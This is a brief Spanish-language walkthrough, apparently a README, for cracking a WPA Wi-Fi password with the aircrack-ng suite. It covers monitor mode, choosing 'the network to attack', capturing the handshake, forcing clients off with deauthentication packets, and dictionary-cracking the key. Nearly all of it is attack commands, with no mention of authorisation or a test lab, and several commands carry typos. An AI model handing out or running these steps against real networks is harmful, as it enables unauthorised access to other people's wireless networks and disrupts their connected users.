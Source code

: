 Abrir terminal 
Logearse sudo
airmon-ng (lista todas las tarjetas que soportan modo monitor)

airmon-ng start wlan0

airodump-ng wlan0mon

Muestra las redes inhalambricas y los dispositivos conectados a los access points
Elegimos a red a atacar

ESSID Nombre de la red
CH Channell
BSSID Nro Mac address

Nueva terminal sudo bash
airodump-ng -c 11 --bssid ee:ee:ee:ee:ee -w /home/kali/claves wlan0mn
               !            !                   !
               !            !                   -- Ruta al archivo donde vamos a escribir el escaner
               !            !
               !            ---------------------- Bssid del router
               !
               ----------------------------------- Channel

Monitorea la red seleccionada esperando que un dispositivo se conecte al router para que intercambien el handshake

Comprobamos que en la carpeta se crearon los archivos con el nombre Clave con la informacion que necesitamos

Nueva pesataña sudo bash
aireplay-n -0 2 -a ee:ee:ee:ee:ee -c dd:dd:dd:dd:dd wlan0mon

nueva terminal sudo bash
aircrack-ng -a2 -b ee:ee:ee:ee:ee -w /ruta/al/diccionari.txt /home/kali/*.cap

